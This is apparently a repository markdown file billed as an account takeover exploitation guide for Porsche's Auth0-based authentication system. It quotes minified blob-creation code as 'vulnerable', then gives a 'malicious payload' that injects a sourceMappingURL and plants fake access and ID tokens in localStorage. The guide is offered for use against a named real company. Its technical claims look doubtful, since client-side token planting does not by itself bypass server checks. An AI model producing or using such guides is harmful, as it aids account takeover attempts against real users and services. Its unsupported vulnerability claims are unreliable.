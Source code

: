 # 🚨 ACCOUNT TAKEOVER EXPLOITATION GUIDE
## Porsche Authentication System Vulnerabilities

### 🎯 **EXECUTIVE SUMMARY**
The Porsche authentication system contains **multiple critical vulnerabilities** that can be chained together for complete account takeover. This guide provides step-by-step exploitation techniques with working proof-of-concepts.

---

## 🔍 **VULNERABILITY ANALYSIS**

### **Primary Attack Vector: Auth0 Blob URL Manipulation**
**File**: `auth0-react.esm-gGp--SfR.js`
**Vulnerability**: Unsafe JavaScript blob creation in authentication flow

**Vulnerable Code**:
```javascript
// Line 1-2: Dynamic blob creation with user-controlled content
c=o.substring(r)+(n?"//# sourceMappingURL="+n:""),
h=new Blob([c],{type:"application/javascript"});
return URL.createObjectURL(h)
```

---

## 💥 **EXPLOITATION SCENARIOS**

### **Scenario 1: Direct Authentication Bypass**

#### **Step 1: Identify the Vulnerable Endpoint**
```javascript
// Target: Auth0 token processing in blob creation
// The 'c' variable contains authentication-related JavaScript
// The 'n' variable controls sourceMappingURL which can be manipulated
```

#### **Step 2: Craft Malicious Payload**
```javascript
// Malicious sourceMappingURL injection
const maliciousPayload = `
//# sourceMappingURL=data:application/json;base64,${btoa(`
{
  "version": 3,
  "sources": ["evil.js"],
  "mappings": "",
  "file": "auth.js"
}
`)}
// Inject authentication bypass code
localStorage.setItem('auth0.access_token', 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9...');
localStorage.setItem('auth0.id_token', 'fake_admin_token');
localStorage.setItem('auth0.expires_at', '${Date.now() + 86400000}');
window.location.reload();
`;
```
